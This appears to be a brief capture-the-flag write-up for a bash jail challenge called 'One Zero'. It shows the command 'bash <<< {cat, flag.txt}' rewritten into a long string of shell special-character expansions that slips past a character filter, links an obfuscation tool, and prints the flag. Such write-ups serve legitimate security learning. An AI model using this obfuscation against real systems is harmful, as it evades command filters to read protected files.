

# One Zero

> You only get one zero... for real this time. ;)

## How to Solve

To solve this you need bash obfuscate method

[Bash Obfuscate Tool](https://gist.github.com/dimasma0305/c3d5d3cac71c8240a491a3010f2372b8)

The original payload is `bash <<< {cat, flag.txt}`

After obfuscate became this 

```${!#} <<< {$\'\\${##}$((${##}<<$((${##}))<<$((${##}))))$((${##}<<$((${##}))^${##}))\\${##}$((${##}<<$((${##}))<<$((${##}))))${##}\\${##}$(($((${##}<<$((${##}))^${##}))<<${##}))$((${##}<<$((${##}))<<$((${##}))))\',$\'\\${##}$((${##}<<$((${##}))<<$((${##}))))$(($((${##}<<$((${##}))^${##}))<<${##}))\\${##}$((${##}<<$((${##}))<<$((${##}))^${##}))$((${##}<<$((${##}))<<$((${##}))))\\${##}$((${##}<<$((${##}))<<$((${##}))))${##}\\${##}$((${##}<<$((${##}))<<$((${##}))))$(($((${##}<<$((${##}))^${##}))<<${##}^${##}))\\$((${##}<<$((${##}))<<$((${##}))^${##}))$(($((${##}<<$((${##}))^${##}))<<${##}))\\${##}$(($((${##}<<$((${##}))^${##}))<<${##}))$((${##}<<$((${##}))<<$((${##}))))\\${##}$(($((${##}<<$((${##}))^${##}))<<${##}^${##}))${#}\\${##}$(($((${##}<<$((${##}))^${##}))<<${##}))$((${##}<<$((${##}))<<$((${##}))))\',}```



```
flag{5d15f415ef8e8601f80340761c5918be}
```